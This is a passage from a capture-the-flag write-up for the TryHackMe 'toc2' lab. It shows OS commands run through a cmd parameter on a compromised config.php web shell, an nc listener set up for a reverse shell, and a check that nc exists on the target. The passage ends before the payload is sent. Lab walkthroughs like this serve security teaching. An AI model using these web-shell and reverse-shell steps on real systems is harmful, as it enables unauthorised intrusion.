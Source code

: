 ![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/toc2/images/Pasted%20image%2020221124032651.png)

**Now, we can execute OS command via going to the `config.php` page:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# curl 'http://toc2.thm/cmsms/config.php?cmd=id;hostname' 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
toc
```

Nice!!

**Let's get a reverse shell!**

**To do so, I'll:**

- Setup a `nc` listener:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# nc -lnvp 443   
listening on [any] 443 ...
```

- Send the reverse shell payload: (Generated from [revshells.com](https://www.revshells.com/))

But first, we need to know `which` programme that we can abuse on the target machine:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/toc2]
└─# curl http://toc2.thm/cmsms/config.php --get --data-urlencode "cmd=which nc"     
/bin/nc
```
